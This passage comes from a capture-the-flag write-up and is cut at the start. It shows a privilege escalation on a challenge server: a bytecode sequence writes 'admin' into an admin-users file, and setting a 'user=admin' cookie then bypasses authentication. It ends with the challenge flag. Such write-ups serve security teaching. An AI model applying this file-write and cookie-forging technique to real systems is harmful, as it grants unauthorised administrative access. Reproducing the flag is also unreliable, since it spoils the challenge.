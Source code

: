 With this information, we know where the admin users file is located.

### Step 2: Add Admin User

#### Command Sequence:
```
OpenCommand(b"/server_data/admin_users", 0, 5)
    ↓
CreateStringCommand("admin", 1, 1)
    ↓
WriteCommand(5, 1, 5)
```

#### Detailed Explanation:
1. **OpenCommand(b"/server_data/admin_users", 0, 5)**:
   - Open the admin users file
   - Store file descriptor in register 5

2. **CreateStringCommand("admin", 1, 1)**:
   - Create string "admin" in data section
   - Store pointer in register 1
   - Use ID 1 for the string

3. **WriteCommand(5, 1, 5)**:
   - Write 5 bytes (length of "admin")
   - From string buffer in register 1
   - To admin users file (register 5)

#### Bytecode:
```
01182f7365727665725f646174612f61646d696e5f75736572730201000205000b0561646d696e02010002010004020500020100020500
```

### Step 3: Authentication
```
Set cookie user=admin
```

This step involves setting a web cookie to authenticate as an admin user, completing the privilege escalation.

### Final Result
By setting the "User" cookie to "admin" and clicking on the admin button we get access to the admin page.

## Complete Solution Summary

The attack works by:
1. **Information Gathering**: Reading the event logs on the webpage to understand the data we need
2. **Leaking Sensitive Information**: Extracting necessary details from the server configuration
3. **Privilege Escalation**: Create the admin users file and add "admin" to the file
4. **Authentication Bypass**: Setting the user cookie to "admin"

## Flag
`flag-4e3941d5-afb5-4255-ac3e-dedaa3fe9174`
